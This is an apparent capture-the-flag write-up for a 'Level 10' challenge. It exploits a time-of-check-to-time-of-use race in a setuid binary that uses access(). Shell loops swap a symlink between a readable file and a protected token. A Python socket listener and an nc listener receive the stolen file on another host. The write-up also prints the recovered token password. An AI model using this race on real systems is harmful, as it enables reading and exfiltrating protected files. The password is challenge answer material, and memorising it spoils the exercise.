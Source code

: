 <h2>Level 10</h2>

![alt text](./screenshot/image1.png)

In this level we have `level10` executable and a `token` file

We do not have any permission on the `token` file so lets try to run `level10` to see what this program does

![alt text](./screenshot/image2.png)

It seems that `level10` is sending the file in the 1st argv to the host in the 2nd argv if we have the permission of that file

Lets use `ltrace` to check analyze further

![alt text](./screenshot/image3.png)

When we analyze with the token file, we can see that it is calling `access()` to check something and it return -1 and printf `You dont't have access`

While in the other test, it return 0 and continue to connect to the host

Lets make a simple python server in our local machine to capture the file.

This is a good example on how to create a simple python server
```console
https://realpython.com/python-sockets/#echo-client-and-server
```

```console
#!/usr/bin/env python3

import socket

HOST = '192.168.1.16'
PORT = 6969

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        print('Connected by', addr)
        while True:
            data = conn.recv(1024)
            if not data:
                break
            print('Data received: {}'.format(data))
            conn.sendall(data)
```

Now lets run our python server in local machine, and back to the VM to run `level10` to see what happen if the host is connected.

![alt text](./screenshot/image4.png)

![alt text](./screenshot/image5.png)

We can see that if we succesfully connect to the host and we have the right permissions on the file, it will write the file content to our local machine server

If we are able to hack the `level10`, we can potentially let it write the content of `token` file for us.

When we analyze `level10` with ltrace, we can see that it is using `access()` to check for the permission, lets check what this is with `man access`

![alt text](./screenshot/image6.png)

In the `man` it said that `access()` have a security hole and is not safe to use

And in the following link
```console
https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole
```

![alt text](./screenshot/image7.png)

Someone explain that we can exploit the small time between the checking of the permission and the reading of the file

First we will let the program do `access` on the file that we have the permission on, once it checked that the file is okay, we will quickly do a `symlink` to `token` file

Since a program execution is very fast, human speed could never exploit that small little time frame, so we should use machine to fight with machine
```console
while true; do ln -fs ~/.profile /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

In the current folder, if we do `ls -la` we could actually see some hidden file like `.profile` which we have the permission on.

So we can do a while loop which will keep linking `/tmp/exploit` between `.profile` and `token`, and trick the `level10` using another while loop
```console
while true; do ./level10 /tmp/exploit 192.168.1.16; done
```

Now this will keep execute the `level10` with the `/tmp/exploit` file, meanwhile the 1st while loop is alternatively linking it back and forth between `.profile` and `token`

![alt text](./screenshot/image8.png)

It may not success at the first time, but we can keep to rerun the server again 

Eventually we will get the password from the token `woupa2yuojeeaaed06riuj63c`

![alt text](./screenshot/image9.png)

Using this password, we finally get our flag for the next level~  :partying_face: :tada: :tada: :tada:

*UPDATE*
We could actually use `nc -lk 127.0.0.1 6969` and use the VM localhost instead of creating a python server, just learned this after attempt to solve level11 :(